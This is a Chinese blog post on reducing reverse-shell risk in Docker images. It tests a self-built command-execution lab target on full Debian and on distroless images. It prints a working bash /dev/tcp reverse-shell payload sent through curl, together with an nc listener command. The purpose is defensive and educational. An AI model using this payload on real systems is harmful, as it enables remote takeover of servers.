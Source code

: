 ```yaml
---
date: "2020-12-03T00:00:00Z"
description: 优化精简容器镜像， 降低 shell 反弹攻击风险
keywords: docker, dockerfile, security, shell
tags:
- docker
- security
title: 学习 shell 反弹实现， 优化 Docker 基础镜像安全
---
```


# 学习 shell 反弹实现， 优化 Docker 基础镜像安全

天天都在说优化 Dockerfile。 到底怎么优化， 优化后的检验指标又是什么？ 没有考虑清楚行动目的， 隔空放炮， 必然徒劳无功。

笔者最近准备在 CI 上增加安全检测， 在分析案例样本的时候， 找到了比较流行的 struts2 漏洞， 其中 [S2-052 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-052/README.zh-cn.md) 的利用方式就是在 POST 请求中添加恶意代码或命令。

如 Demo 片段所示。

```xml
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
```

## 0x01 确认目标

既然可以远程执行命令了， 那么如何拿到服务器权限也就是必然考虑的事情， 如 `webshell` 、 `shell 反弹` 等 。 

在翻阅的搜索引擎靠前《常见 shell 反弹方式和利用》的文章之后，总结如下。 

**shell 反弹** 即 **使用 `1. 任意方式` 将 `2. /bin/sh` 通过 `3. 网络连接` 方式连接到 `4. 攻击机`**

其中 **任意方式** 常见为:

1. 使用各种 `程序命令` 创建 shell 网络通信
2. 使用各种 `编程语言` 即使构造 shell 网络通信， **对于解释型语言而言，即为依赖运行环境**。
3. 使用 `操作系统中的设备文件` 创建 shell 网络通信。

以上 4个 条件中， 在预设环境中， 能管理的就有 `1. 任意方式` 和 `2. /bin/sh`。 
优化镜像目标已经很明确了， 精简环境， 减少 `1. 和 2.` 的存在


## 0x02 环境准备

根据目标， 设计了一个靶机， 功能是将 POST 的命令直接转换成命令执行。 代码已经放在 Github 上， [任意命令执行漏洞靶机](https://github.com/tangx/vulhub/tree/master/cmd/shell/reflect2) 。

并产出了两个容器镜像。

+ `doslab/vulhub-reflect2:latest` 使用 debian 官方镜像
+ `doslab/vulhub-reflect2:static` 使用 debian 精简镜像， 更多信息参考 [GoogleContainerTools/distroless](https://github.com/GoogleContainerTools/distroless)  


### 0x02.1 部署靶机

```bash
## debian:buster
docker run --rm -d -p 8081:8080 doslab/vulhub-reflect2:latest

## distroless/debian-static10
docker run --rm -d -p 8082:8080 doslab/vulhub-reflect2:static
```

### 0x02.2 利用方式

向接口发送 JSON 数据， 方式如下

```bash
curl -X POST http://127.0.0.1:8081/v0/cmd -d '{
    "command":"ls",
    "args":["-l","-a","-h"]
}'
```

## 0x03 实验开始

### 0x03.1 lastest 靶机

1. **攻击机** 执行 `nc` 命令 监听端口， 等待反弹连接。
```bash
nc -nvlp 4444
```

2. **攻击机** 执行 POST 命令， 进行恶意请求。

```bash
# latest
curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"bash",
    "args":["-c","bash -i >& /dev/tcp/192.168.233.3/4444 0>&1"]
}'
```

3. **攻击机** `nc` 所监听端口被成功访问， 进入容器 bash 界面。 如图所示

![shell-reflect2-success.png](/assets/img/post/2020/12/03/shell-reflect2-success-with-debian.png)


### 0x03.2 static 靶机

1. **攻击机** 准备监听端口 `4444`

```bash
nc -nvlp 4444
```

2. **攻击机** 执行 POST 命令， 进行恶意请求。

```bash
# static
curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"bash",
    "args":["-c","bash -i >& /dev/tcp/192.168.233.3/4444 0>&1"]
}'
```

3. POST 请求报错， 返回信息， `bash` 不存在。 如图所示

![shell-reflect2-failed.png](/assets/img/post/2020/12/03/shell-relect2-failed-with-static.png)


## 0x04 结论

在使用了 **google distroless 镜像** 之后， 在一定程度上阻止了服务漏洞带来的 **常见 shell 反弹攻击** 。 尤其是在类似 golang 这类编译型的语言， 运行环境需求相对简单。 

所以， 在管理 Dockerfile 时

1. **选择或制作简单且符合业务需求的镜像**
    + `1. 可被利用的漏洞或方式越少`
    + `2. 镜像更小， 分发更快`
2. 干净整洁的 docker context 环境
3. 合理的命令层级顺序， 以达到更多的 layer 复用。

其他 Dockerfile 使用探究， 可以阅读 
+ [使用 Dockerfile 构建镜像注意事项](https://tangx.in/2019/03/26/how-to-build-a-image-with-dockerfile/)
+ [Dockerfile 中 ARG 的使用与其的作用域探究](https://tangx.in/2020/11/06/dockerfiles-args-scope)
+ [多阶构建](https://tangx.in/2018/10/30/docker-multi-stage-build/)

## 0xGG 参考文档

+ [反弹Shell原理及检测技术研究](https://www.cnblogs.com/LittleHann/p/12038070.html#_label0)
+ [linux各种一句话反弹shell总结](https://www.anquanke.com/post/id/87017)
+ [反弹shell利用方式](https://www.cnblogs.com/ktfsong/p/11265734.html)


+ [docker security](https://foxutech.com/docker-security/)

